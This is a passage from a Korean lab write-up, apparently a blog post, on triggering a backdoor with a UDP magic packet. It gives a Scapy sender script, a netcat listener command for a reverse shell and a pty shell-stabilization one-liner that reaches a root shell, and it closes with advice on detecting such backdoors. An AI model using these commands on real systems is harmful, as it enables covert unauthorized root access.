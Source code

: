 보낼 ip와 포트를 설정해주고, udp 를 받도록 해주었다.   

<br>

**3. 공격자 파일 생성**   

<img src="https://github.com/user-attachments/assets/0387e9f2-52e3-4072-9abe-5f342ec336cf" width=500>  

<br>

이전 공격 코드에서,  
`sniff(iface="eth0", filter="udp", prn=trigger)` 로 UDP 전체를 감시하고 있기 때문에 `dport` 값은 아무 상관없어서 1로 넣어줬다.    


```python
from scapy.all import *

target_ip = "192.168.125.129"
magic = b"MAGICTRIGGER"
packet = IP(dst=target_ip)/UDP(dport=1)/Raw(load=magic)

send(packet)
```
이렇게 공격자 파일도 생성했다.  

<br>

**4. 파일 실행**  
이제 각 파일들을 전부 실행시켜준다.  

- `sudo python3 listener.py` 생성해둔 파일을 실행시켜준다.
- `nc -lvnp 2345`로 2345 포트에서 들어오는 연결을 수신해준다.  
- `sudo python3 sender.py` 공격자의 화면에서도 sender.py를 생성해준다. 

<br>

참고로 `sender`를 보내기 전에 `listener`와 `nc -lvnp 2345`를 먼저 실행 시켜놔야한다.  
이렇게 전부 실행시켰다면,  
<br>

<img src="https://github.com/user-attachments/assets/e9c9aa80-500d-4c9a-8509-ee047792a0b7" width=700>   

패킷을 보내고, 패킷이 수신된 것을 볼 수 있다.  
<br>

<img src="https://github.com/user-attachments/assets/dcd06bb1-573c-4fa7-b59a-984418014978" width=500>   

이후에  
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

쉘안정화를 시켜주면 root 쉘을 얻을 수 있는 것을 볼 수 있다.  
<br>

이번 실습에서는 단순한 특수 바이트 시퀀스를 트리거 패턴으로 활용했지만,   
실제 공격에서는 사람이 쉽게 읽을 수 없는 바이트열이나 정상 트래픽으로 위장된 프로토콜 일탈 패턴, 심지어 암호화된 페이로드 형태로 매직 패킷이 삽입될 수 있다.  
이 경우 네트워크 레이어에서 단순 시그니처 기반으로 탐지하는 것은 점점 어려워진다.   

이러한 유형의 공격을 방어하기 위해 네트워크 동작에 대한 이상 행위를 탐지하는 행동 기반 분석이 필요하다.  
백도어가 외부와 연결할 때 사용하는 outbound 연결을 상시 감시하고 로그를 보존하는 것도 중요하다.  
이를 통해 의심스러운 외부 발신 시도를 사후 분석할 수 있는 기반을 확보해야 한다.
